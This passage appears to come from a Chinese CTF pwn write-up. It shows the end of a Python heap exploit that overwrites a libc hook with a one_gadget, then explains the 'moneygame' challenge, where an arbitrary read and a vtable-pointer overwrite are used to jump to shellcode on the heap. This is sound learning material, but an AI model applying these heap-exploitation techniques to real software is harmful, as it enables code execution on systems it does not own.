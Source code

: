 ```python
dele(1)
dele(2)
dele(1)

onegad  = libcbase + 0xf1147#0xf02a4#0xf1147

add(0x60,p64(fakechunk))
add(0x60,'aaa')
add(0x60,'aaa')
add(0x60,'b'*(19-8)+p64(onegad) + p64(libcrealloc+0x14))

io.interactive()
```



## moneygame

![5d00c27a72dca72095](https://i.loli.net/2019/06/12/5d00c27a72dca72095.png)

没开NX，可能会用到shellcode。

程序主要围绕一个名为Player的对象，函数调用是通过虚表来进行的。

![5d00c2db8fe4135269](https://i.loli.net/2019/06/12/5d00c2db8fe4135269.png)

![5d00c30c0202726566](https://i.loli.net/2019/06/12/5d00c30c0202726566.png)

v3 是player对象的指针，v3指向堆上。

堆上player对象的前8bytes为对象虚表指针，指向`0x2030d88`。

![5d00c730db60342682](https://i.loli.net/2019/06/12/5d00c730db60342682.png)

![5d00c76a6da7750615](https://i.loli.net/2019/06/12/5d00c76a6da7750615.png)

qword_204088好像是故意留的后门，它存在bss段上，它的内容为指向player对象+12的指针。

![5d00c6e98573088754](https://i.loli.net/2019/06/12/5d00c6e98573088754.png)



show处可以任意泄露。

edit处输入一个偏移，可以堆上任意写。但是两个偏移之间最少有8字节的`\x00`，因为它以12bytes为间隔写8bytes。这里会影响到后面shellcode的利用。

基本上就用到这两个func.



调试一下发现show处输入-1可以泄露codebase.

edit处修改-1可以修改掉对象的虚表指针。



在堆上player对象+12的位置写入shellcode。edit -1修改对象的虚表指针为qword_204088，使用buy功能即可执行shellcode。
